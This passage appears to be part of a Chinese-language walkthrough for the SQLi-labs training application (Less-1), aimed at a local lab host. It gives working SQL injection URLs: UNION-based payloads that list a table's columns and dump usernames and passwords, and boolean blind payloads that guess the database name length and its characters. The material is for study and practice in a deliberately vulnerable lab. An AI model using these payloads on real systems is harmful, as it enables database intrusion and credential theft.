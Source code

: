 ```
http://centos7-6.local/sqli-labs/Less-1/?id=-1' union select 1,2,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users') --+
```

得到字段名

![得到字段名](./../../../../images/SQLI%20labs/%E4%BD%BF%E7%94%A8/Less-1/%E5%BE%97%E5%88%B0%E5%AD%97%E6%AE%B5%E5%90%8D.png)

**拖库**

```
http://centos7-6.local/sqli-labs/Less-1/?id=-1' union select 1,2,(select group_concat(username,'_',password) from users) --+
```

为了方便显示可以换行显示

```
http://centos7-6.local/sqli-labs/Less-1/?id=-1' union select 1,2,(select group_concat(username,0x5F,password,0x3C,0x68,0x72,0x2F,0x3E) from users) --+
```

### 2.1.3 布尔盲注

**爆库**

**判断数据库长度**

```
http://centos7-6.local/sqli-labs/Less-1/?id=1' and (length(database())=8) --+
```

> 长度为 8

**取数据库名的每个字符的 ascii 码**

第一个码

```
http://centos7-6.local/sqli-labs/Less-1/?id=1' and ascii(substr(database(),1,1)) = 115 --+
```

> 第一个码为 115 是 s
